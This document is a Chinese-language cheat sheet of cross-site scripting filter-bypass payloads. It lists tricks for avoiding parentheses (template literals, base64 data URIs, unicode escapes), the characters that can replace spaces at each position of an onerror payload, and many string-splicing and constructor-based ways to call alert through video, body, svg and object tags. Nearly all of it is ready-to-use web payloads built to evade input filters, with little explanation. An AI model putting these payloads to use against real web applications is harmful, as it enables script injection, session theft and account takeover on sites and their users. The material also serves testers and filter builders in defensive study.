 ## 绕过 ｜ 括号

```python
alert`1`
<oBjECt/2/dAtA="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<svg/4/onLOad="\u0061lert`4`"/>
new Function`alert`6``;
top['a\u006ce'+'rt']``
Set.constructor`alert(14)```;
<video src onerror=a="%2",location="javascript:aler"+"t"+a+"81"+a+"9"> 组合%28和%29
<video src onerror="javascript:window.onerror=alert;throw 1">
```

## 绕过 ｜ 空格

假设payload如下： 

```
html><imgAAsrcAAonerrorBB=BBalertCC(1)DD</html>
```

A位置可填充`/，/123/，%09，%0A，%0C，%0D，%20 `

B位置可填充`%09，%0A，%0C，%0D，%20`

C位置可填充`%0B`，如果加双引号，则可以填充`/**/，%09，%0A ，%0C，%0D，%20` 

D位置可填充`%09，%0A，%0C，%0D，%20，//，>`

函数配合拼接

```python
<video/src/onerror=top.alert(1);>
<video/src/onerror=top[`al`+`ert`](1);>
<video/src/onerror=self[`al`+`ert`](1);>
<video/src/onerror=parent[`al`+`ert`](1);>
<video/src/onerror=window[`al`+`ert`](1);>
<video/src/onerror=frames[`al`+`ert`](1);>
<video/src/onerror=content[`al`+`ert`](1);>
<body/onload=eval(alert(1));>
<body/onload=eval(`al`+`ert(1)`);>
<body/onload=open(alert(1));>
<body/onload=document.write(alert(1));>
<body/onload=setTimeout(alert(1));>
<body/onload=setInterval(alert(1));>
<body/onload=Set.constructor(alert(1))()>
<body/onload=Map.constructor(alert(1))()>
<body/onload=Array.constructor(alert(1))()>
<body/onload=WeakSet.constructor(alert(1))()>
<body/onload=constructor.constructor(alert(1))>
<video/src/onerror=[1].map(alert);>
<video/src/onerror=[1].map(eval('al'+'ert'));>
<video/src/onerror=[1].find(alert);>
<video/src/onerror=[1].every(alert);>
<video/src/onerror=[1].filter(alert);>
<video/src/onerror=[1].forEach(alert);>
<video/src/onerror=[1].findIndex(alert);>
```
